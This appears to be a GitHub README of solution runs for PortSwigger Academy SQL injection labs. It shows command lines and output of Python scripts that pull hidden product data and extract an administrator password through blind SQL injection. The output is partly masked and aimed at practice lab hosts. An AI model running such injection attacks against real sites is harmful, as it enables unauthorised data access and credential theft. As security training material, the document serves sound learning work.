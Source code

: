 ## SQL Injection Labs - PortSwigger Academy


#### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```sh
$ python where_sql_injection_hidden_data.py https://acf71f921e03f347807402610012004b.web-security-academy.net
High-End Gift Wrapping
Conversation Controlling Lemon
...
...
...
The Bucket of Doom
Folding Gadgets
ZZZZZZ Bed - Your New Home Office
```

#### Lab: Blind SQL Injection with Conditional Response
```sh
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwxwfcbXXXXXXXXXXXX
```

#### Lab: Blind SQL Injection with Conditional Errors
```sh
$ python blind_sql_injection_conditional_errors.py https://accf1fb81eb3ffbe80ab1379003a0078.web-security-academy.net
Checking users table: True
Checking Administrator account: True
Checking password length: 20
Extracting Admin password: fbut9j14XXXXXXXXXXXX
```
#### Lab: Blind SQL injection with time delays check
```sh
$ python blind_sql_injection_time_delay_test.py https://ac521fdc1ea4123980d0baf50078008e.web-security-academy.net
SQL Time Delay Injection detected
```
